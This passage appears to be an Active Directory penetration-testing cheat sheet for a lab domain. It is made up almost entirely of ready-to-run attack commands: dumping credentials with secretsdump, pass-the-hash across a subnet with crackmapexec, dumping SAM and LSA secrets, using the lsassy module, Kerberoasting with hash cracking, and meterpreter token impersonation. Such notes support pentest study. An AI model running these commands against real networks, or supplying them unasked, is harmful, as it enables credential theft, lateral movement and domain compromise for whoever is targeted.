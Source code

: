 Second Way:
```bash
secretsdump.py MARVEL.local/fcastle:Password1@10.0.0.25
```

Third Way:
```bash
secretsdump.py administrator:@192.168.138.138 --hashes [LM-HASH]:[NT-HASH]
```

Pass the Hash=>
```bash
crackmapexec smb 10.0.0.0/24 -u administrator -H [USER-HASH]
```

Reminder! Cheatsheet of crackmapexec

--local-auth : authenticate locally to each target

--sam : dump SAM hashes from target systems.

--lsa : dump LSA secrets from target systems.

--shares: enumerate shares and access

-L : List available modules for each protocol

-M : Specify module

How to use **available** module for crackmapexec?
```bash
crackmapexec smb 192.168.138.0/24 -u administrator -H [USER-HASH] --local-auth -M lsassy
```

**Reminder**! If you want to access database of crackmapexec, you just need to use **cmedb** command



Kerberoasting=>

1.Get SPNs 
```bash
python GetUserSPNs.py MARVEL.local/fcastle:Password1 -dc-ip [DC_IP] -request
```

2.Crack the hash
```bash
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```

Token Impersonation=>

To see all tickets on meterpreter
```bash
meterpreter > list_tokens -u
```

To impersonate user:
```bash
meterpreter > impersonate_token MARVEL\\administrator
```
